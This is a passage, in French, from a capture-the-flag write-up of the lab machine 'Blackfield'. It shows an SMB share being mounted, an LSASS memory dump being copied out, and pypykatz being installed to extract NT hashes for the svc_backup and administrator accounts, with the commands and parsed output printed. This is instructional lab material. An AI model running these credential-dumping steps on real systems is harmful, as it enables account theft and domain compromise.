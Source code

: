 ### Fichier lsass.dmp

Un fichier très intéressant, il contiendrait peut être des identifiants capturés en mémoire.

![image-20200616085833142](https://itstiptop.net/assets/img/image-20200616085833142.png)

Le téléchargement du fichier est impossible. Erreur `parallel_read returned NT_STATUS_IO_TIMEOUT`. Je parviens tout de même à le télécharger en montant le share smb.

	kali@kali:~$ sudo mount -t cifs //10.10.10.192/forensic /mnt/ -o user=audit2020
	Password for audit2020@//10.10.10.192/forensic:  *********
	kali@kali:~$ cp /mnt/memory_analysis/lsass.zip ./Blackfield/
	kali@kali:~/Blackfield$ unzip lsass.zip 
	Archive:  lsass.zip
	  inflating: lsass.DMP               
	kali@kali:~/Blackfield$ 

#### Installation de pypykatz

Pypykatz est le Mimikatz offline pour Linux.

	git clone https://github.com/skelsec/pypykatz.git
	sudo pip3 install minidump minikerberos aiowinreg msldap winsspi
	cd pypykatz/
	sudo python3 setup.py install

Et analyse le contenu de lsass.DMP. J'ai maintenant les hash de 2 comptes :

- svc_backup : 9658d1d1dcd9250115e2205d9f48400d
- administrator : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62

La sortie est volontairement tronquée :

	kali@kali:~/Blackfield$ sudo pypykatz lsa minidump lsass.DMP
	INFO:root:Parsing file lsass.DMP
	FILE: ======== lsass.DMP =======
	== LogonSession ==
	authentication_id 406458 (633ba)
	session_id 2
	username svc_backup
	domainname BLACKFIELD
	logon_server DC01
	logon_time 2020-02-23T18:00:03.423728+00:00
	sid S-1-5-21-4194615774-2175524697-3563712290-1413
	luid 406458
		    == MSV ==
		            Username: svc_backup
		            Domain: BLACKFIELD
		            LM: NA
		            NT: 9658d1d1dcd9250115e2205d9f48400d
		            SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
		    == WDIGEST [633ba]==
		            username svc_backup
		            domainname BLACKFIELD
		            password None
		    == SSP [633ba]==
		            username 
		            domainname 
		            password None
		    == Kerberos ==
		            Username: svc_backup
		            Domain: BLACKFIELD.LOCAL
		            Password: None
		    == WDIGEST [633ba]==
		            username svc_backup
		            domainname BLACKFIELD
		            password None